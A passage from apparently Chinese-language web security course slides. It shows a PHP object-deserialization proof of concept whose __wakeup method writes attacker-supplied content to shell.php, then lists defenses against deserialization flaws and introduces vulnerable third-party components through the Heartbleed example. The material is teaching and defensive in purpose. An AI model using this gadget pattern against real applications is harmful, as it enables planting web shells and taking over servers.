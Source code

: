 ```php
<?php
class cuc {
    var $test = 'whatever';
    function __wakeup() {
        $fp = fopen("shell.php", "w");
        fwrite($fp, $this->test);
        fclose($fp);
        echo '__wakeup';
    }
}
$payload_class = new cuc();
$payload_class->test = "<?php phpinfo(); ?>";
$payload = serialize($payload_class);
print(urlencode($payload)); // urlencode() 结果是为了方便使用 curl 时给 GET 参数赋值
```

---

[![asciicast](https://asciinema.org/a/pME1z7OyEA12JrXT5dKlwgCQQ.svg)](https://asciinema.org/a/pME1z7OyEA12JrXT5dKlwgCQQ)

---

## 反序列化漏洞的防御方案

* 将应用程序配置为不接受不可信来源的任何反序列化输入
* 仅使用具有基本数据类型的序列化函数（如 PHP 的 json_encode() 和 json_decode()）
* 如果这些措施不可行，那么在创建对象之前执行反序列化期间应强制实施约束类型，在较低特权环境（例如，临时容器）中运行反序列化，并限制与执行反序列化的服务器的网络连接
* 同时还可通过使用加密或完整性检查（例如，数字签名），防止恶意的对象创建和数据篡改操作

# 9. 第三方组件缺陷 {id="vulnerable-component"}

---

> 所有 Web 应用程序（甚至连操作系统都没有例外）都依靠由第三方开发和提供的各种软件组件，包括开源组件和商用组件。

---

## 心脏滴血

[2014 年 4 月，知名开源安全组件 OpenSSL 被爆「心脏滴血」漏洞](https://heartbleed.com/)

* 利用该漏洞，攻击者可以直接读取远程服务器上的内存数据，其中包括大量运行时的明文密钥、明文口令等机密数据
* 攻击者借助恢复出的密钥和口令等，又可以进一步获取远程服务器的高权限 

---

* 由于「依赖于」 OpenSSL 库，Apache 和 Nginx 服务器是当时的重灾区软件
    * 彼时，根据 [Netcraft 2014 年 4 月的 Web 服务器市占率统计](https://news.netcraft.com/archives/2014/04/02/april-2014-web-server-survey.html) ，全球 66% 的网站使用了这 2 种服务器软件搭建。这就意味着这部分网站如果没有特别的缓解或防护措施，将无一幸免于这次大规模的漏洞攻击事件

---
